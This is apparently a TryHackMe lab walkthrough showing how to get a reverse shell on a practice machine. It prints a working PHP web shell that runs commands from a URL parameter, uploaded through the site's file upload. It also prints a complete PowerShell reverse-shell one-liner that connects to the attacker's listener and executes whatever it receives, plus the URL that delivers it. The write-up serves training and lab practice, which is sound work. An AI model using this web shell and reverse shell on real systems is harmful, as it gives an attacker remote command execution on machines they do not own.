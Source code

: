 ![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/9ff0539a-c395-4cab-88e4-6fdb8372e845)First lets start the machine form the **TASK 15** and see what is has to offer to use..

**NOTE: As this is a THM task so there wont be any firewall blocking in real life scenarios it wont be this easy for sure!!**
# USING SIMPLE PHP SCRIPT


![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/47f2952e-a5fc-47e0-9c2c-2c2e9ec3453c)

The website look something like this..

Now lets create a simple PHP script and upload it on the website

    <?php echo "<pre>" .shell_exec($_GET["cmd"]). "</pre>"; ?>

Now lets visit the /upload/fname (in my case fname = revshell.php)
![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/b5b4ec5d-5990-4f52-ba61-ef9c7852f563)

Open the listern on any port that you desire..


Now lets look at this git repo: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

From here we will be using the powershell one liner script in order to get a rev shell


    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.17.61.124',4443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

Chnage the ip address and port accordingly..

Now convert this in url form and then modify the url 

    http://10.10.109.254/uploads/revshell.php?cmd=<whole script that has been converted into url using any url encoder>

![image](https://github.com/Theincognitomode/What-the-shell/assets/73027020/77dfb4b7-ebf0-4fe2-9459-cbdc35320d8d)

There we goo!! 

Now read the TASK 13 
